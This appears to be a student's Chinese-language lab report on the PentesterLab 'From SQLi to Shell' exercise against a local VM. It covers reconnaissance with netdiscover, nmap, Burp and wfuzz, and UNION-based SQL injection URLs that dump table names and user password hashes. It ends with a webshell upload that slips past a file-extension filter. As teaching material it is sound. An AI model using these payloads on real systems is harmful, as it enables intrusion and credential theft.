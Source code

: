 # chap0x07 SQL注入
## 网络拓扑
* 服务器 SQL_Server: 网络模式为NAT网络

![](01服务器.png)

* 攻击者 SQL_Attacker：网络模式为NAT网络

![](02攻击者.png)

* 攻击者可以ping通服务器

![](04攻击者ping.png)

* 服务器可以ping通攻击者

![](05服务器ping.png)

## 实验过程
* 在攻击者端扫描服务器IP
```txt
netdiscover -r 10.0.0.9/24
 ```
![](03扫描服务器IP.png)
 

#### 指纹识别
* 收集有关Web应用程序和正在使用的技术信息。
* 用nmap扫描服务器，查看端口情况和MAC地址

![](06nmap扫描.png)

* 浏览器查看网页的源代码，发现是PHP写的view-source

![](07网页源码.png)

#### Burpsuite查看http响应包头，提取更多有效信息
* 浏览器设置代理

![](08浏览器设置代理.png)

* 设置代理后无法访问网页，需要配置请求转发，地址端口与浏览器代理设置一致

![](09配置转发.png)

* 关闭Intercept

![](10关闭intercept.png)

* 攻击者浏览器访问服务器
```txt
http://10.0.0.9
```
![](11访问服务器.png)

* 对Burpsuite劫持http的request分析，发现服务器是建立在Apache2.0上的，网页使用的是PHP/5.3.3-7+squeeze14

![](12burpsuite分析.png)

* 使用Wfuzz暴力检测Web服务器上的目录和页面
```txt
find / -name big.txt
cd /usr/share/wfuzz
wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://10.0.0.9/FUZZ
```
![](30wfuzz.png)

#### SQL注入
##### 检测
* 基于整数的检测
* 对cat.php进行SQL注入测试，显示了图片，说明存在漏洞

![](13.png)

* 访问```http://10.0.0.9//cat.php?id=1``` 和 ```http://10.0.0.9//cat.php?id=2-1``` 生成的是一个页面，说明数据库直接做了减法，可以SQL注入

![](14.png)

* 基于字符串的检测
* 奇数个单引号```http://10.0.0.9//cat.php?id=1'```将引发错误，偶数个单引号则不会

![](15.png)

* 加上```--```表示注释```http://10.0.0.9//cat.php?id=2 --'or id = 3```

![](16.png)

##### 注入
* 猜测列数：
* 使用UNION：UNION前后的select语句的列数需保持一致，否则报错```http://10.0.0.9/cat.php?id=2 UNION SELECT 1,2,3```

![](17union.png)

```http://10.0.0.9/cat.php?id=2 UNION SELECT 1,2,3,4```

![](18union2.png)

* 使用order by：order by 后面的值必须小于或等于数据库中的列数，否则报错```http://10.0.0.9/cat.php?id=2 order by 4```

![]19order.png)

```http://10.0.0.9/cat.php?id=2 order by 5```

![](20order2.png)

* 所以可以猜测此数据库有4列，并且猜测需要的数据信息在第2列

#### 信息获取
* 获取数据库版本信息```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,@@version,3,4```

![](21version.png)

* 当前用户```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,current_user,3,4```

![](22当前用户.png)

* 当前数据库```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,database(),3,4```

![](23当前数据库.png)

* 当前数据库中所有表的名称```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables```

![](24所有表名.png)

![](25所有表名2.png)

* 当前数据库中所有列的名称```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns```

![](26所有列名.png)

* 表名和列名的对应关系```http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

![](27表名和列名对应关系.png)

* 获取用于访问管理页面的用户名和密码。通过表名和列名的对应关系，发现列里含有password， id ，login列

![](28用户信息.png)

* 获取用户名和密码的md5序列```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,concat(login, ':'' ,password),3,4 FROM users ```

![](29用户密码.png)

* 在线破解md5序列得到密码为```P4ssw0rd```

![](31在线破解.png)

#### 登录后台

* 获取用户名、密码后，尝试登录后台

![](32尝试登录.png)

* 登录成功，此处的```new.php```可以用于上传Webshell

![](33登录.png)

* 构建Webshell文件```shell.php```，执行 GET 请求中 cmd 参数的值

![](34webshell.png)

* 尝试上传```shell.php```失败，说明网站禁止直接上传php文件

![](35上传php.png)

![](36禁止php.png)

* 更改Webshell文件后缀```shell.php.test```，绕过检测，上传成功

![](37绕过.png)

![](38成功.png)

* 测试Webshell

![](39测试.png)

* 获取系统用户信息

![](40系统用户信息.png)

* 获取系统版本信息

![](41系统版本信息.png)

* php信息

![](42php信息.png)

* php配置文件中的特定设置

![](43php配置.png)


参考链接
* https://github.com/CUCCS/2018-NS-Public-FLYFLY-H/pull/8
* https://github.com/CUCCS/2018-NS-Public-jckling/pull/10
* https://pentesterlab.com/exercises/from_sqli_to_shell/course